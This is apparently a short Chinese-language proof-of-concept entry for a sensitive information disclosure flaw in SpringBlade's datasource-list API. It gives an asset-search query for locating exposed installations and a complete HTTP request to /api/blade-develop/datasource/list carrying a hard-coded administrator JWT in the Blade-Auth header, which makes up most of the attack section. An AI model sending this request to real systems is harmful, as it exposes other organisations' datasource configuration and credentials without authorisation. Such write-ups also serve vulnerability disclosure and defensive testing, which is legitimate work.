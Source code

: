 # SpringBlade datasource-list存在敏感信息泄露

# 一、漏洞简介
SpringBlade datasource-list存在敏感信息泄露漏洞

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/AjeJd3ytEL9HrhNQ/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-859792.png)

# 四、漏洞复现
```java
GET /api/blade-develop/datasource/list HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```

![1722874818816-5a6dee23-66b6-4249-ab50-92a2f14977c4.png](./img/AjeJd3ytEL9HrhNQ/1722874818816-5a6dee23-66b6-4249-ab50-92a2f14977c4-850077.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fyrvvqbbnir53nqg>